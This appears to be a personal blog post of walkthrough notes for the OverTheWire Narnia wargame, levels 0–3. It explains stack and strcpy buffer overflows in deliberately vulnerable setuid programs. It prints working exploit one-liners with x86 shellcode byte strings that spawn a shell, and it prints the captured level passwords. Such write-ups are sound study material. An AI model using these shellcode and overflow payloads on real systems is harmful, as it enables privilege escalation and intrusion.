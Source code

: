 ```yaml
---
layout: default
title: overthewire_wargames_notes_narnia
categories:
- C++
tags:
- C++
---
```

//Description:

//Create Date: 2020-02-25 15:42:55

//Author: channy

# overthewire_wargames_notes_narnia

[address](https://overthewire.org/wargames/narnia/)

> ssh -p2226 narnia0@narnia.labs.overthewire.org

## 1. 

```
narnia0@narnia:/narnia$ ls -lrht
total 108K
-r-sr-x--- 1 narnia1 narnia0 7.3K Aug 26 22:35 narnia0
-r--r----- 1 narnia0 narnia0 1.3K Aug 26 22:35 narnia0.c
-r-sr-x--- 1 narnia2 narnia1 7.2K Aug 26 22:35 narnia1
-r--r----- 1 narnia1 narnia1 1021 Aug 26 22:35 narnia1.c
-r-sr-x--- 1 narnia3 narnia2 5.0K Aug 26 22:35 narnia2
-r--r----- 1 narnia2 narnia2 1022 Aug 26 22:35 narnia2.c
-r-sr-x--- 1 narnia4 narnia3 5.6K Aug 26 22:35 narnia3
-r--r----- 1 narnia3 narnia3 1.7K Aug 26 22:35 narnia3.c
-r-sr-x--- 1 narnia5 narnia4 5.2K Aug 26 22:35 narnia4
-r--r----- 1 narnia4 narnia4 1.1K Aug 26 22:35 narnia4.c
-r-sr-x--- 1 narnia6 narnia5 5.5K Aug 26 22:35 narnia5
-r--r----- 1 narnia5 narnia5 1.3K Aug 26 22:35 narnia5.c
-r-sr-x--- 1 narnia7 narnia6 5.9K Aug 26 22:35 narnia6
-r--r----- 1 narnia6 narnia6 1.6K Aug 26 22:35 narnia6.c
-r-sr-x--- 1 narnia8 narnia7 6.4K Aug 26 22:35 narnia7
-r--r----- 1 narnia7 narnia7 2.0K Aug 26 22:35 narnia7.c
-r-sr-x--- 1 narnia9 narnia8 5.1K Aug 26 22:35 narnia8
-r--r----- 1 narnia8 narnia8 1.3K Aug 26 22:35 narnia8.c
```

c语言的编译器在分配内存时，不只是按照变量的定义顺序来分配的，而且还参考了变量的类型。

这个程序读入24个字节的字符串放到BUF里，  多余的4个字节就会覆盖VAL，   进而改变VAL的值

```
narnia0@narnia:/narnia$ python -c 'print "a"*20 + "\xef\xbe\xad\xde" + "\x80" '
aaaaaaaaaaaaaaaaaaaaﾭހ
narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaaﾭހ
buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae

//但是用python3就不行哦～
narnia0@narnia:/narnia$ python3 -c 'print("a"*20 + "\xef\xbe\xad\xde" + "\x80")'
aaaaaaaaaaaaaaaaaaaaï¾­Þ
```

## 2. shellcode, export临时环境变量

[常用shellcode](http://shell-storm.org/shellcode/)

对于本题，用[Linux/x86 - execve(/bin/dash) - 49 bytes by Chroniccommand](http://shell-storm.org/shellcode/files/shellcode-756.php)

```narnia1.c
#include <stdio.h>
 
int main(){
    int (*ret)();
 
    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }   
 
    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();
 
    return 0;
}
```

```
narnia1@narnia:/narnia$ export EGG=$'\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43'
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```

## 3. 输入超长字符串覆盖返回地址

```narnia2.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

[reference](https://bbs.pediy.com/thread-252827.htm)

```
narnia2@narnia:/narnia$ ./narnia2 $(python -c 'print "\x90"*94+"\xeb\x18\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x8d\x4e\x08\x89\x46\x0c\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"+"\x50\xd8\xff\xff"') 
$ whoami 
narnia3 
$ cat /etc/narnia_pass/narnia3 
vaequeezee 
```

## 4.

```narnia3.c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
``` 

ifile 和 ofile 挨在一起， 然后strcpy 又没有对长度进行一个检查，



[back](/)

